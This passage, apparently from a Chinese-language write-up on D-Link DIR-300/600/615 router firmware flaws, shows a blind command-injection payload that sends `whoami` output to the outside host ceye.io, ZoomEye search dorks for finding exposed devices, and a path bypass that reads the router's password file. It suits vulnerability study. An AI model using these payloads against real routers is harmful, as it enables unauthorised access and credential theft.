     url = 'localhost/diagnostic.php'
    data = "act=ping&dst=%26 ping `whoami`.ceye.io%26"

因为是盲注的命令执行，所以这里需要借助一个盲打平台（如：[ceye](http://ceye.io/)），来验证漏洞是否存在。

##### D-Link DIR-300 & DIR-320 & DIR-600 & DIR-615 信息泄露漏洞

**Zoomeye dork:**[DIR-300](https://www.zoomeye.org/searchResult?q=%20DIR-300&t=all) or [DIR-600](https://www.zoomeye.org/searchResult?q=%20DIR-600&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/www` 文件夹。

漏洞出现在`/model/__show_info.php`文件。

    <?
    if($REQUIRE_FILE == "var/etc/httpasswd" || $REQUIRE_FILE == "var/etc/hnapasswd")
    {
        echo "<title>404 Not Found</title>\n";
        echo "<h1>404 Not Found</h1>\n";
    }
    else
    {
        if($REQUIRE_FILE!="")
        {
            require($LOCALE_PATH."/".$REQUIRE_FILE);
        }
        else
        {
            echo $m_context;
            echo $m_context2;//jana added
            if($m_context_next!="")
            {
                echo $m_context_next;
            }
            echo "<br><br><br>\n";
            if($USE_BUTTON=="1")
            {echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
        }
    }
    ?>

这里看到已经禁止了`$REQUIRE_FILE`的参数为`var/etc/httpasswd`和`var/etc/hnapasswd`。这么一看无法获取账号密码。但是我们可以从根路径开始配置`httpasswd`的路径，就可以绕过这个过滤了。

payload：

    localhost/model/__show_info.php?REQUIRE_FILE=/var/etc/httpasswd

这里设置`REQUIRE_FILE=/var/etc/httpasswd` 成功绕过上面的 if 判断，进行任意文件读取。

##### D-Link DIR-300 & DIR-320 & DIR-615 权限绕过漏洞

**Zoomeye dork:**[DIR-300](https://www.zoomeye.org/searchResult?q=%20DIR-300&t=all) or [DIR-615](https://www.zoomeye.org/searchResult?q=%20DIR-615&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/www` 文件夹

